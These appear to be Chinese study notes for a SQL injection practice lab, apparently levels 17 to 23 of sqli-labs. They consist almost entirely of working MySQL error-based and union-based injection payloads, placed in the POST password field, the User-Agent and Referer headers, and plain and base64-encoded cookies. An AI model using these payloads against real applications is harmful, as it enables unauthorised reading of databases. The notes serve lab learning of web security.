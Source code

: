 ```mysql

##17	POST密码未过滤单引号闭合有报错
123' and updatexml(1,concat(0x5e,database()),1)#

##18	POST请求头注入 闭合单引号和使用报错注入
Firefox/89.0' and extractvalue(1,concat(0x7e,concat(version()))) and '

##19	修改referer
' and extractvalue(1,concat(0x7e,database())) and '1'='1

#20		重新请求页面对cookie进行修改

uname=admin' and extractvalue(1,concat(0x5e,database())) and '1'='1

#21		对cookie进行base64编码
uname = YWRtaW4nIGFuZCBleHRyYWN0dmFsdWUoMSxjb25jYXQoMHg1ZSxkYXRhYmFzZSgpKSkgYW5kICcxJz0nMQ==

admin'and updatexml(1,concat(0x5e,database()),1)#
#22		双引号闭合
YWRtaW4iYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDVlLChzZWxlY3QgZ3JvdXBfY29uY2F0KHNjaGVtYV9uYW1lKSBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS5zY2hlbWF0YSkpLDEpIw== 

##23 	多出'未闭合
?id=1' and '1'='1
?id=-1' union select 1,2,3 and '1'='1
或者 ?id=-1' union select 1,2,'1 
```

![image-20210714152632540](websafe/image-20210714152632540.png)

![image-20210714162757112](websafe/image-20210714162757112.png)

